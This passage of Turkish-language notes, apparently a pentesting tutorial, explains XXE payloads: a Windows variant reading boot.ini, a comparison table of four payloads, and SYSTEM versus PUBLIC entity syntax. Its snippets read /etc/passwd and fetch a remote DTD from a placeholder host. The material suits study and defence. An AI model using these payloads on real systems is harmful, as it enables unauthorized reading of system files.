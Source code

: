 ####  Özellikleri:

- Yukarıdakiyle neredeyse aynı ama bu sefer Windows sistem hedeflenmiş.
- `file:///c:/boot.ini` ifadesiyle Windows’ta var olan bir dosya okunmaya çalışılır.
- `boot.ini` eski sistemlerde (Windows XP/2003 gibi) bulunan sistem yapılandırma dosyasıdır.
    

####  Avantajı:

- Hedef sistemin işletim sistemi Windows ise, test için kullanılır.
- Dosya yolları Windows’a göre düzenlenmiş.


##### Özet

| Payload | Hedef OS   | DTD Detayı | Element Tanımı | Encoding Belirtildi mi? | Not                              |
| ------- | ---------- | ---------- | -------------- | ----------------------- | -------------------------------- |
| 1       | Unix/Linux | Basit DTD  | Yok            | Hayır                   | En sade örnek                    |
| 2       | Unix/Linux | Detaylı    | Var (`data`)   | Hayır                   | Doğrulayıcı parser için daha iyi |
| 3       | Unix/Linux | Detaylı    | Var (`foo`)    | Evet (`ISO-8859-1`)     | Uyumluluk artırıcı               |
| 4       | Windows    | Detaylı    | Var (`foo`)    | Evet (`ISO-8859-1`)     | Windows hedefli                  |

### 99- SYSTEM ve PUBLIC syntax farklılıkları

`SYSTEM` ve `PUBLIC` neredeyse eşanlamlıdır.

XML DTD (Document Type Definition) içinde bir **external entity** tanımlarken iki temel yöntem kullanılır:

- `SYSTEM`
- `PUBLIC`

Her ikisi de dış bir kaynağa başvurur, ancak aralarında **amaç ve davranış farkı** vardır.

##### `SYSTEM`

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Bu, en yaygın kullanılan formdur. Burada `SYSTEM`, dış kaynağın bir **URL** olduğunu belirtir (local dosya veya remote URL olabilir).

- Sadece **bir URI/URL** alır.
- `file://`, `http://`, `ftp://` gibi protokollerle kullanılır.
- Genellikle **dış veri çekmek** için kullanılır.

##### `PUBLIC`

```xml
<!ENTITY xxe PUBLIC "Any TEXT" "http://example.com/payload.dtd">
```

`PUBLIC` aslında XML dünyasında **formel olarak tanımlanmış public entity’ler** için vardır (örneğin HTML DTD’leri gibi). Ama bazı parser’lar `PUBLIC` tanımındaki **ikinci parametreye gider ve içeriği çeker**.
